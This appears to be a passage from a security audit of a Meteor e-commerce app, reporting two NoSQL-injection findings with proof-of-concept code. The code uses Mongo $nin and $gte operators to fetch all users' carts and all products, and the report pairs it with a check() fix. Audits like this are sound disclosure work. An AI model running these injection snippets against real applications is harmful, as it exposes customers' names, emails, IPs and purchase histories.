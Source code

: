 <hr/>

## All Carts Are Fetchable - Method II (Severity: <span style="color:#e69138;">Medium</span>)

The getCart method isn't asserting that userKey is a String ([shopping_cart.js:30-32](https://github.com/robconery/meteor-shop/blob/d667a93ba3a116f1d65534b384099bc9e8230e80/lib/shopping_cart.js#L30-L32)).

Carts.getCart is doing a findOne, which means that we can't grab all carts in one pass, but we can do it incrementally by using an $nin query operators and tracking our progress:

<pre class="language-javascript"><code class="language-javascript">var carts = [];
function getCartAndSave(userKeys) {
    Meteor.call('getCart', {$nin: userKeys}, function(e, r) {
        if (e || !r || !r._id) {
            return;
        }
        carts.push(r);
        userKeys.push(r.userKey);
        getCartAndSave(userKeys);
    });
}
getCartAndSave(['']);
</code></pre>

### Impact:

This means that malicious users can see the stored carts of every user in the system, including sensitive information like items ordered, name, email, IP, total spent and their userKey.

### Remediation:

Fixing this issue is as simple as checking that userKey is a string:

<pre class="language-javascript"><code class="language-javascript">getCart : function(userKey){
  check(userKey, String);
  return Carts.getCart(userKey);
}
</code></pre>

<hr/>

## All Products Are Fetchable (Severity: <span style="color:#6aa84f;">Low</span>)

Both the products-by-vendor and products-by-sku publications aren't making assertions about what the slug and sku arguments must be ([publications.js:9-15](https://github.com/robconery/meteor-shop/blob/d667a93ba3a116f1d65534b384099bc9e8230e80/server/publications.js#L9-L15)).

This means that a malicious can pass in a Mongo query object to grab all Products in the system, directly from their browser console:

<pre class="language-javascript"><code class="language-javascript">Meteor.subscribe('products-by-vendor', {$gte: ''});
Meteor.subscribe('products-by-sky', {$gte: ''});
Products.find().fetch();
</code></pre>
